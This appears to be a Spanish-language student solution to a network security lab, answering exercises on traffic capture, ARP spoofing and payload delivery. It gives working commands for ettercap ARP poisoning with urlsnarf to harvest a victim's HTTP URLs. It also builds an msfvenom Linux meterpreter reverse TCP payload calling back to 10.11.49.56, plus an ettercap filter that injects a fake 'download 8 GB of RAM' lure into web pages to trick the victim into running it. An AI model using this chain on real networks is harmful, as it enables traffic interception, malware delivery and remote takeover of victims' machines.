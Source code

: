 ### e) Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los servicios, conexiones y protocolos involucrados.
+ tcpdump -i ens33 -s 65535 -w mytraffic.pcap

En cmd:
+ scp lsi@10.11.49.56:/home/lsi/mytraffic.pcap .

### f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.
+ apt install dsniff
En /etc/ettercap/etter dar permisos root a ettercap:
```
[privs]
ec_uid = 0                # nobody is the default
ec_gid = 0                # nobody is the default
```

+ ettercap -i ens33 -P remote_browser -Tq  -M arp:remote /10.11.49.49// /10.11.48.1//

En otra shell:
+ urlsnarf -i ens33

En shell víctima:
+ lynx http://edu4java.com

### g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.
+ msfconsole

En metaexploit:
+ msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=10.11.49.56 lport=2003 -f elf -o ivan.exe
+ mv ivan.exe /var/www/html

En shell:
+ nano filtro.filter
```
if (ip.proto == TCP && tcp.dst == 80) {
 if (search(DATA.data, "Accept-Encoding")) {
 replace("Accept-Encoding", "Accept-Nothing!");
 }
}

if (ip.proto == TCP && tcp.src == 80) {
 if (search(DATA.data, "<title>")) {
 replace("</title>", "</title><h1> ALERTA!!!!!!!!! su dispositivo se está quedando sin memoria RAM</h1><h2>Pulse aquí para descargar 8 GB de RAM lógica y ejecute el archivo</h2><form method="get" action="http://10.11.49.56/ivan.exe"><button type="submit"> DOWNLOAD"</button></form>");
 msg("html injected");
 }
}
```
